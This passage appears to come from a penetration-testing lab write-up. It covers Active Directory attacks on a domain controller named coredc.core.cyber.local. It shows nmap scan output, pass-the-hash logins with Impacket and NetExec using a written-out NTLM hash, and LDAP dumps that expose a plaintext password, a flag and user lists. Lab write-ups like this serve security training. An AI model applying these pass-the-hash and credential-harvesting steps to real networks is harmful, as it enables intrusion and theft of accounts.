And if we run NMAP seems like no success!



Judging that we cant reach it via missing NIC i guess we can move on for now.

Running from shell session on the Linux machine:

```
www-data@corewebdl:/tmp$ ./nmap -F 10.9.15.10
./nmap -F 10.9.15.10

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-14 08:30 EST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.9.15.10
Host is up (0.00025s latency).
Not shown: 237 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos
135/tcp  open  epmap
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd
636/tcp  open  ldaps
3389/tcp open  ms-wbt-server
```

Even more info since I fixed the connetion back to Ligolo-ng:

```
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2024-06-14 14:09:02Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: cyber.local, Site: Core)
|_ssl-date: 2024-06-14T14:10:05+00:00; +1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:coredc.core.cyber.local
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2024-01-17T19:50:39
| Not valid after:  2025-01-16T19:50:39
| MD5:   9858:7c88:dec5:c3b4:ea7a:d542:e4db:508d
| SHA-1: 6a04:a556:35ce:5d07:fcea:b9d9:738d:84bb:931b:2769
| -----BEGIN CERTIFICATE-----
| MIIErDCCBFOgAwIBAgITJgAACao6MHz6YDDXFAAAAAAJqjAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjQwMTE3MTk1MDM5WhcNMjUwMTE2MTk1MDM5
| WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqqCOTK22bSV8sbDs
| x+8PUu+7yBBOVip5TTdOv6hAIe7JVSFJK5+eZEglhZrNTk83Blh1egaPzvd31K7Y
| 4XIqeAGY2uOr0LN4v7OjYtgX60C7AJNn+Ngk+Mi4WeAxCY083YO2g/+fy/WDIajv
| 47VMrpvSEypWsQbhPLsuPVMBSqMn2Et8GOivyrCBQz7FCzcdGNY+p1kr/I3mfa6Q
| mr+ZxSxFNcnUmhUYlLLcaw7Tsg+Eo9+FBL8lfpqvT3ee/JnaHglIXzevIXzgR4dT
| klxPVRR3BM2ofUx76j4VcpHKae8N/as0GLhQKED6RFVyAI0t9sl9a2DAeosF1DJ7
| R47QhQIDAQABo4ICnjCCApowPAYJKwYBBAGCNxUHBC8wLQYlKwYBBAGCNxUIh7uV
| NJ+RM4aJjTiE1p1mgdXEI2mr3Ocrq9zuJwIBbgIBAjApBgNVHSUEIjAgBgorBgEE
| AYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYDVR0PAQH/BAQDAgWgMDUGCSsG
| AQQBgjcVCgQoMCYwDAYKKwYBBAGCNxQCAjAKBggrBgEFBQcDATAKBggrBgEFBQcD
| AjAdBgNVHQ4EFgQUKKGe6sacOGqmtszr4Ppv8RajG7gwHwYDVR0jBBgwFoAUMQqj
| BPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxkYXA6
| Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1jeWJlcixE
| Qz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsGAQUFBwEBBIGtMIGqMIGnBggr
| BgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0EsQ049QUlBLENOPVB1YmxpYyUy
| MEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9
| Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNl
| cnRpZmljYXRpb25BdXRob3JpdHkwJQYDVR0RAQH/BBswGYIXY29yZWRjLmNvcmUu
| Y3liZXIubG9jYWwwCgYIKoZIzj0EAwIDRwAwRAIga+Sd8RM7VKXzyRaPOS0WfDuD
| 1MLBdF/rZ2MEkkLjvmQCIHZo94i42iEsTQ27yD/YiKVhb1/qV8MLSHPrd6zeEVss
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 64
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: cyber.local, Site: Core)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:coredc.core.cyber.local
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2024-01-17T19:50:39
| Not valid after:  2025-01-16T19:50:39
| MD5:   9858:7c88:dec5:c3b4:ea7a:d542:e4db:508d
| SHA-1: 6a04:a556:35ce:5d07:fcea:b9d9:738d:84bb:931b:2769
| -----BEGIN CERTIFICATE-----
| MIIErDCCBFOgAwIBAgITJgAACao6MHz6YDDXFAAAAAAJqjAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjQwMTE3MTk1MDM5WhcNMjUwMTE2MTk1MDM5
| WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqqCOTK22bSV8sbDs
| x+8PUu+7yBBOVip5TTdOv6hAIe7JVSFJK5+eZEglhZrNTk83Blh1egaPzvd31K7Y
| 4XIqeAGY2uOr0LN4v7OjYtgX60C7AJNn+Ngk+Mi4WeAxCY083YO2g/+fy/WDIajv
| 47VMrpvSEypWsQbhPLsuPVMBSqMn2Et8GOivyrCBQz7FCzcdGNY+p1kr/I3mfa6Q
| mr+ZxSxFNcnUmhUYlLLcaw7Tsg+Eo9+FBL8lfpqvT3ee/JnaHglIXzevIXzgR4dT
| klxPVRR3BM2ofUx76j4VcpHKae8N/as0GLhQKED6RFVyAI0t9sl9a2DAeosF1DJ7
| R47QhQIDAQABo4ICnjCCApowPAYJKwYBBAGCNxUHBC8wLQYlKwYBBAGCNxUIh7uV
| NJ+RM4aJjTiE1p1mgdXEI2mr3Ocrq9zuJwIBbgIBAjApBgNVHSUEIjAgBgorBgEE
| AYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYDVR0PAQH/BAQDAgWgMDUGCSsG
| AQQBgjcVCgQoMCYwDAYKKwYBBAGCNxQCAjAKBggrBgEFBQcDATAKBggrBgEFBQcD
| AjAdBgNVHQ4EFgQUKKGe6sacOGqmtszr4Ppv8RajG7gwHwYDVR0jBBgwFoAUMQqj
| BPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxkYXA6
| Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1jeWJlcixE
| Qz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsGAQUFBwEBBIGtMIGqMIGnBggr
| BgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0EsQ049QUlBLENOPVB1YmxpYyUy
| MEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9
| Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNl
| cnRpZmljYXRpb25BdXRob3JpdHkwJQYDVR0RAQH/BBswGYIXY29yZWRjLmNvcmUu
| Y3liZXIubG9jYWwwCgYIKoZIzj0EAwIDRwAwRAIga+Sd8RM7VKXzyRaPOS0WfDuD
| 1MLBdF/rZ2MEkkLjvmQCIHZo94i42iEsTQ27yD/YiKVhb1/qV8MLSHPrd6zeEVss
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-14T14:10:05+00:00; +1s from scanner time.
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: cyber.local, Site: Core)
|_ssl-date: 2024-06-14T14:10:05+00:00; +1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:coredc.core.cyber.local
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2024-01-17T19:50:39
| Not valid after:  2025-01-16T19:50:39
| MD5:   9858:7c88:dec5:c3b4:ea7a:d542:e4db:508d
| SHA-1: 6a04:a556:35ce:5d07:fcea:b9d9:738d:84bb:931b:2769
| -----BEGIN CERTIFICATE-----
| MIIErDCCBFOgAwIBAgITJgAACao6MHz6YDDXFAAAAAAJqjAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjQwMTE3MTk1MDM5WhcNMjUwMTE2MTk1MDM5
| WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqqCOTK22bSV8sbDs
| x+8PUu+7yBBOVip5TTdOv6hAIe7JVSFJK5+eZEglhZrNTk83Blh1egaPzvd31K7Y
| 4XIqeAGY2uOr0LN4v7OjYtgX60C7AJNn+Ngk+Mi4WeAxCY083YO2g/+fy/WDIajv
| 47VMrpvSEypWsQbhPLsuPVMBSqMn2Et8GOivyrCBQz7FCzcdGNY+p1kr/I3mfa6Q
| mr+ZxSxFNcnUmhUYlLLcaw7Tsg+Eo9+FBL8lfpqvT3ee/JnaHglIXzevIXzgR4dT
| klxPVRR3BM2ofUx76j4VcpHKae8N/as0GLhQKED6RFVyAI0t9sl9a2DAeosF1DJ7
| R47QhQIDAQABo4ICnjCCApowPAYJKwYBBAGCNxUHBC8wLQYlKwYBBAGCNxUIh7uV
| NJ+RM4aJjTiE1p1mgdXEI2mr3Ocrq9zuJwIBbgIBAjApBgNVHSUEIjAgBgorBgEE
| AYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYDVR0PAQH/BAQDAgWgMDUGCSsG
| AQQBgjcVCgQoMCYwDAYKKwYBBAGCNxQCAjAKBggrBgEFBQcDATAKBggrBgEFBQcD
| AjAdBgNVHQ4EFgQUKKGe6sacOGqmtszr4Ppv8RajG7gwHwYDVR0jBBgwFoAUMQqj
| BPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxkYXA6
| Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1jeWJlcixE
| Qz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsGAQUFBwEBBIGtMIGqMIGnBggr
| BgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0EsQ049QUlBLENOPVB1YmxpYyUy
| MEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9
| Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNl
| cnRpZmljYXRpb25BdXRob3JpdHkwJQYDVR0RAQH/BBswGYIXY29yZWRjLmNvcmUu
| Y3liZXIubG9jYWwwCgYIKoZIzj0EAwIDRwAwRAIga+Sd8RM7VKXzyRaPOS0WfDuD
| 1MLBdF/rZ2MEkkLjvmQCIHZo94i42iEsTQ27yD/YiKVhb1/qV8MLSHPrd6zeEVss
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: cyber.local, Site: Core)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:coredc.core.cyber.local
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2024-01-17T19:50:39
| Not valid after:  2025-01-16T19:50:39
| MD5:   9858:7c88:dec5:c3b4:ea7a:d542:e4db:508d
| SHA-1: 6a04:a556:35ce:5d07:fcea:b9d9:738d:84bb:931b:2769
| -----BEGIN CERTIFICATE-----
| MIIErDCCBFOgAwIBAgITJgAACao6MHz6YDDXFAAAAAAJqjAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjQwMTE3MTk1MDM5WhcNMjUwMTE2MTk1MDM5
| WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqqCOTK22bSV8sbDs
| x+8PUu+7yBBOVip5TTdOv6hAIe7JVSFJK5+eZEglhZrNTk83Blh1egaPzvd31K7Y
| 4XIqeAGY2uOr0LN4v7OjYtgX60C7AJNn+Ngk+Mi4WeAxCY083YO2g/+fy/WDIajv
| 47VMrpvSEypWsQbhPLsuPVMBSqMn2Et8GOivyrCBQz7FCzcdGNY+p1kr/I3mfa6Q
| mr+ZxSxFNcnUmhUYlLLcaw7Tsg+Eo9+FBL8lfpqvT3ee/JnaHglIXzevIXzgR4dT
| klxPVRR3BM2ofUx76j4VcpHKae8N/as0GLhQKED6RFVyAI0t9sl9a2DAeosF1DJ7
| R47QhQIDAQABo4ICnjCCApowPAYJKwYBBAGCNxUHBC8wLQYlKwYBBAGCNxUIh7uV
| NJ+RM4aJjTiE1p1mgdXEI2mr3Ocrq9zuJwIBbgIBAjApBgNVHSUEIjAgBgorBgEE
| AYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYDVR0PAQH/BAQDAgWgMDUGCSsG
| AQQBgjcVCgQoMCYwDAYKKwYBBAGCNxQCAjAKBggrBgEFBQcDATAKBggrBgEFBQcD
| AjAdBgNVHQ4EFgQUKKGe6sacOGqmtszr4Ppv8RajG7gwHwYDVR0jBBgwFoAUMQqj
| BPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxkYXA6
| Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1jeWJlcixE
| Qz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsGAQUFBwEBBIGtMIGqMIGnBggr
| BgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0EsQ049QUlBLENOPVB1YmxpYyUy
| MEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9
| Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNl
| cnRpZmljYXRpb25BdXRob3JpdHkwJQYDVR0RAQH/BBswGYIXY29yZWRjLmNvcmUu
| Y3liZXIubG9jYWwwCgYIKoZIzj0EAwIDRwAwRAIga+Sd8RM7VKXzyRaPOS0WfDuD
| 1MLBdF/rZ2MEkkLjvmQCIHZo94i42iEsTQ27yD/YiKVhb1/qV8MLSHPrd6zeEVss
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-14T14:10:05+00:00; +1s from scanner time.
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: core
|   NetBIOS_Domain_Name: core
|   NetBIOS_Computer_Name: COREDC
|   DNS_Domain_Name: core.cyber.local
|   DNS_Computer_Name: coredc.core.cyber.local
|   DNS_Tree_Name: cyber.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-06-14T14:09:55+00:00
|_ssl-date: 2024-06-14T14:10:05+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=coredc.core.cyber.local
| Issuer: commonName=coredc.core.cyber.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-13T09:39:12
| Not valid after:  2024-12-13T09:39:12
| MD5:   3aeb:9b41:664f:c26f:7315:6b35:5d5f:deb6
| SHA-1: c6ef:2cea:632c:3b23:5fda:b6d6:98c9:c090:fec4:62c9
| -----BEGIN CERTIFICATE-----
| MIIC8jCCAdqgAwIBAgIQEw3+Vg2DmbdPyQvLvOWRBDANBgkqhkiG9w0BAQsFADAi
| MSAwHgYDVQQDExdjb3JlZGMuY29yZS5jeWJlci5sb2NhbDAeFw0yNDA2MTMwOTM5
| MTJaFw0yNDEyMTMwOTM5MTJaMCIxIDAeBgNVBAMTF2NvcmVkYy5jb3JlLmN5YmVy
| LmxvY2FsMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsI9FztKuZzpF
| zNymgoc3st6YrGHxqiA1ueq+BJUGFTFmWYy1OqPtBQG1I6yejGKNssgoF9ERDXYE
| c7eYaAU5OosGBTAa/v1jCenmA4dvEcqBH0x9QQiYz1pk7fBgqLVHqOmtayjjvj2z
| f+QZ+WWjqRNyGtoUI9zkBCBIRFTzmUaExVddON1nov/RAtZINjbQ5EZXJa7bpX1v
| LbLt6giSniLzzlGUqQ7cntxmWRMXVP2HHUgZ1HL3knUPdw0FyzgEB08ZIEIGQ9K9
| 0KpBDvcG7vvd7EvL2kqzh6VLkA6QUKcL5Awft5pRyp43oFhpTEaEHSiJ4tooI+Ps
| X77fkqpckQIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMC
| BDAwDQYJKoZIhvcNAQELBQADggEBAFaQmf+v29mxAYbd9xOyP4Zt5xKNYTTAGXff
| oIBVtI+9pl3nkOcMoeiBByIgOMEh95QktqhI+nABPcKfbxa5eefy1tbUCrZv2n0N
| PcMu46NjZRDo/y9CqAPaEhr78g6BTtP0mFQ/pptwZ2ZqVJ4D5T5c2wDVjYNbxDJx
| 3HCftPNx3zBZWBk8QuDsnvBsJoYhFmyxdjSkXJ5aImIgrtAvkQtOyqHLgl95FvXt
| wZZSA4rOL47qqmZD8FRepgdmFKmGmha6nWaI9mH8wIsoImt+Jvb1Ubq7T94gUHnT
| 5CrhbeGTWpQ6cEMUfkGGyJFv9DjAbHd5/lx7WI770OuXgdZI6eI=
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49682/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49683/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49691/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49719/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
50391/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/14%OT=53%CT=%CU=%PV=Y%G=N%TM=666C4F3D%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=10A%TI=I%CI=RD%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

And now I can use smbclient.py to check the shares!

```
──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/www]
└─# smbclient.py -hashes :4182816cd42bdb6d20f7fb89703f5c48 CORE.CYBER.LOCAL/'COREWEBDL$'@10.9.15.10
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

Type help for list of commands
# ls
[-] No share selected
# list
*** Unknown syntax: list
# help

 open {host,port=445} - opens a SMB connection against the target host/port
 login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
 kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
 logoff - logs off
 shares - list available shares
 use {sharename} - connect to an specific share
 cd {path} - changes the current directory to {path}
 lcd {path} - changes the current local directory to {path}
 pwd - shows current remote directory
 password - changes the user password, the new password will be prompted for input
 ls {wildcard} - lists all the files in the current directory
 lls {dirname} - lists all the files on the local filesystem.
 tree {filepath} - recursively lists all files in folder and sub folders
 rm {file} - removes the selected file
 mkdir {dirname} - creates the directory under the current path
 rmdir {dirname} - removes the directory under the current path
 put {filename} - uploads the filename into the current path
 get {filename} - downloads the filename from the current path
 mget {mask} - downloads all files from the current directory matching the provided mask
 cat {filename} - reads the filename from the current path
 mount {target,path} - creates a mount point from {path} to {target} (admin required)
 umount {path} - removes the mount point at {path} without deleting the directory (admin required)
 list_snapshots {path} - lists the vss snapshots for the specified path
 info - returns NetrServerInfo main results
 who - returns the sessions currently connected at the target host (admin required)
 close - closes the current SMB Session
 exit - terminates the server process (and this session)


# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
# shares
```

Here I tried to enumerate all the stuff on the sever but nothing was saved in the GPOs. But then looking into the other DC at cyber.local we can fins more stuff hehe!



And on the same way we can dump the password description of the users at core.cyber.local and get not only a password but also a flag!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CoreDC]
└─# NetExec ldap 10.9.15.10 -d "core.cyber.local" -u "COREWEBDL$" -H "4182816cd42bdb6d20f7fb89703f5c48" -M get-desc-users
SMB         10.9.15.10      445    COREDC           [*] Windows 10 / Server 2016 Build 14393 x64 (name:COREDC) (domain:core.cyber.local) (signing:True) (SMBv1:False)
LDAP        10.9.15.10      389    COREDC           [+] core.cyber.local\COREWEBDL$:4182816cd42bdb6d20f7fb89703f5c48 
GET-DESC... 10.9.15.10      389    COREDC           [+] Found following users: 
GET-DESC... 10.9.15.10      389    COREDC           User: Administrator description: Built-in account for administering the computer/domain
GET-DESC... 10.9.15.10      389    COREDC           User: Guest description: Built-in account for guest access to the computer/domain
GET-DESC... 10.9.15.10      389    COREDC           User: DefaultAccount description: A user account managed by the system.
GET-DESC... 10.9.15.10      389    COREDC           User: krbtgt description: Key Distribution Center Service Account
GET-DESC... 10.9.15.10      389    COREDC           User: George.Wirth description: v765#QLm^8 #Cyb3rN3t1C5{Cr3d$_!n_De$cr!pti0ns}
```

And doing a check seems like the core.cyber.local and cyber.local have a bidirectional trust allowing to fetch resources from eath other:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CoreDC]
└─# NetExec ldap 10.9.15.10 -d "core.cyber.local" -u "COREWEBDL$" -H "4182816cd42bdb6d20f7fb89703f5c48" -M enum_trusts   
SMB         10.9.15.10      445    COREDC           [*] Windows 10 / Server 2016 Build 14393 x64 (name:COREDC) (domain:core.cyber.local) (signing:True) (SMBv1:False)
LDAP        10.9.15.10      389    COREDC           [+] core.cyber.local\COREWEBDL$:4182816cd42bdb6d20f7fb89703f5c48 
ENUM_TRUSTS 10.9.15.10      389    COREDC           [+] Found the following trust relationships:
ENUM_TRUSTS 10.9.15.10      389    COREDC           cyber.local -> Bidirectional -> Within Forest
```

&nbsp;

# AD Enumeration

Now with George credentials I will run bloodhound and grab an image of the AD. We can grab the list of the AD users @core.cyber.local

```
──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CoreDC]
└─# NetExec ldap 10.9.15.10 -d "core.cyber.local" -u "COREWEBDL$" -H "4182816cd42bdb6d20f7fb89703f5c48" --users
SMB         10.9.15.10      445    COREDC           [*] Windows 10 / Server 2016 Build 14393 x64 (name:COREDC) (domain:core.cyber.local) (signing:True) (SMBv1:False)
LDAP        10.9.15.10      389    COREDC           [+] core.cyber.local\COREWEBDL$:4182816cd42bdb6d20f7fb89703f5c48 
LDAP        10.9.15.10      389    COREDC           [*] Total records returned: 274
LDAP        10.9.15.10      389    COREDC           -Username-                    -Last PW Set-       -BadPW- -Description-                                               
LDAP        10.9.15.10      389    COREDC           Administrator                 2020-01-07 18:12:08 0       Built-in account for administering the computer/domain      
LDAP        10.9.15.10      389    COREDC           Guest                         <never>             0       Built-in account for guest access to the computer/domain    
LDAP        10.9.15.10      389    COREDC           DefaultAccount                <never>             0       A user account managed by the system.                       
LDAP        10.9.15.10      389    COREDC           krbtgt                        2020-06-25 14:07:35 0       Key Distribution Center Service Account                     
LDAP        10.9.15.10      389    COREDC           Ilene.Rasch                   2020-01-10 21:51:23 0                                                                   
LDAP        10.9.15.10      389    COREDC           Krista.Leon                   2019-12-31 07:06:45 0                                                                   
LDAP        10.9.15.10      389    COREDC           Adrian.Ballard                2019-12-31 07:06:45 0                                                                   
LDAP        10.9.15.10      389    COREDC           Maria.Davidson                2019-12-31 07:06:45 0                                                                   
LDAP        10.9.15.10      389    COREDC           Marilyn.McDaniel              2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Robert.Reid                   2020-01-10 21:51:12 0                                                                   
LDAP        10.9.15.10      389    COREDC           Liz.Noack                     2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Nora.Chaney                   2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Kristie.Lee                   2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Doris.Miller                  2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Steven.Sanchez                2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Thomas.Hinnenkamp             2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Peter.Liu                     2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Michael.Jones                 2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Paul.Beam                     2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Jamie.Huntley                 2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Amanda.Ring                   2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Matthew.Ben                   2019-12-31 07:06:46 0                                                                   
LDAP        10.9.15.10      389    COREDC           Kimberly.Wansley              2019-12-31 07:06:47 0                                                                   
